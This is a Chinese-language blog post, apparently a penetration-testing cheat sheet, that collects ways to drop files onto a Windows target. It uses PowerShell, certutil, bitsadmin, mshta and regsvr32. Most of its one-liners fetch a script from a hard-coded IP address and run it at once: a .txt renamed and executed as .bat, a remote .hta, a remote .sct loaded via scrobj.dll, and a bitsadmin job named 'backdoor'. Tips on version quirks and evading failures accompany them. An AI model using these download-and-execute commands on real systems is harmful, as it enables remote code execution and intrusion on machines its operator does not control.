```yaml
---
layout: post
title: 文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*

[TOC]

### 0x01 PoweShell

win2003，winXP不支持

踩坑：

- Powershell 版本大于`2.0`时 在连接Powershell命令时 **空格** 替换了 `;`
- Powershell 版本低于或等于2.0时 `DownloadFile()`函数不支持自定义路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'test.bat');start-process 'test.bat'

powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', 'c:\1.bat');start-process 'c:\1.bat'


```powershell
$client = new-object System.Net.WebClient;$client.DownloadFile('https://avatars0.githubusercontent.com/u/19944759?s=150&v=4', 'C:\1.jpg')
```



### 0x02 Certutil

path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

```cmd
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren test.txt test.bat&test.bat
certutil -urlcache -split -f http://47.92.194.173/test.txt c:\a.bat&c:\a.bat
```

有的时候certutil不支持指定下载的目录，为了兼容直接在当前目录操作



### 0x03 bitsadmin

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败会以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  >  of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

- 啊





Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe



```cmd
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe
```

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

```bash
bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1
```



bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

```cmd
bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat

DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用
```







### 0x03 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll